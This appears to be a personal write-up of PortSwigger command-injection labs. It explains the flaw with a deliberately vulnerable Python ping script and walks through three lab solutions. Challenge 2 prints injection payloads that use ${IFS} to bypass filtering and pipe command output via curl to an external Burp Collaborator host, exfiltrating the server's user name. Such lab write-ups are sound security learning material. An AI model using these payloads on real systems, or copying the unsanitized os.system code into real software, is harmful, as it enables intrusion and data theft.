 ### Command injection(Portswigger labs)

### Command Injection vulnerability in web apps 
   
   Command injection occurs when an attacker is able to execute shell commands(operating system commands) on a server.This vulnerability can compromise sensitive data and also help to grant access too an infrastructure.Below is an example of a vulnerable code snippet
   A website can decide to use the Linux ping utility to allow website visitors to ping ip addresses e.g
        
        import os

        ipaddr = input('Enter your ip address')
        result = os.system(f"ping {ipaddr}")
        print(result)
  
  If the user input is not properly sanitized,an attacker can close the first statement with a semi-colon(if linux) and execute another statement.
      
      ┌──(senzsei㉿kali)-[~]
      └─$ ./try.py
      Enter your ip address:;echo 'sleep'
      ping: usage error: Destination address required
      sleep
      0

  
### Challenge 1: Os command injection simple case
Challenge description:

![2023-10-22_16-05](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1a21ffc3-3e04-46d1-bb0c-682749281f3d)

- I intercepted the check stock feature with burp proxy 

![2023-10-22_16-16](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbd5496c-ea1a-43d8-b108-6201643e3351)

- I tested both fields with linux shell command but It did not return any output.So I used semi-colon before the commands and it worked.
     
![2023-10-22_16-14](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cd3e5497-c800-480d-bab8-e5bafd9bd7a3)

- Challenge solved

 ![2023-10-22_16-17](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9a4035f0-62b1-41f2-b186-c1dfb8ce43c8)

### Challenge 2:
Challenge 2 description: Blind command injection with out of band exfiltration

 ![2023-10-24_14-12](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbec0d6a-ba94-4377-a8fc-f7bed033e85f)

- The main goal of this challenge is to exploit blind command injection by exfiltrating command output with the aid of burp collaborator.I intercepted the feedback form with burp proxy.

 ![2023-10-24_14-31](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/37093ea4-afa0-499e-afcc-f75610fc3d23)

- After sending to the repeater,I decided to test if the linux utilities that I need are filtered or if some commands are filtered.The first thing I did was making a request to burp collaborator with curl and I noticed that the string 'curl' was not filtered by the website.
- I used this payload to send a request to burp collaborator with a message saying "sleep".Note that ${IFS} means space in bash

      ;curl${IFS}<burp collaborator's link>${IFS}-d${IFS}'sleep'
- The server made a request to burp collaborator containing "sleep" in the body.

  ![2023-10-24_14-49](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3df3fac5-8e45-4b4e-8e2c-e2db12d8dbd0)

- I exfiltrated the current user account with this payload.The payload pipes the result of 'whoami' to the position of @- and curl makes a request containing the data to burp collabortor.

      ;whoami${IFS}|curl${IFS}<burp collaborator's link>${IFS}-d${IFS}@-${IFS}2>/dev/null
- Burp collaborator received a request containing the current user account.

 ![2023-10-24_14-49](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ebbce3fd-b83d-47fd-be84-294500b5aa60)

- Challenge solved

 ![2023-10-24_15-08](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d3bf9ad4-7537-4243-aa13-66e7b422dcaa)
  
### Challenge 3:

Challenge description: Blind OS command injection with out-of-band interaction
  
  ![2023-10-24_15-16](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/eeb9ee81-696e-46df-9cee-ee8cc9fac515)

- I used the payload of the last challenge to make a dns query to burp collaborator

  ![2023-10-24_15-37](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/fbda2acf-bb9e-4035-8e0e-7bc4e7dfdd52)

- Challenge solved

  ![2023-10-24_15-40](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0f401a1f-33f2-4bc8-993c-5bd005c84b03)
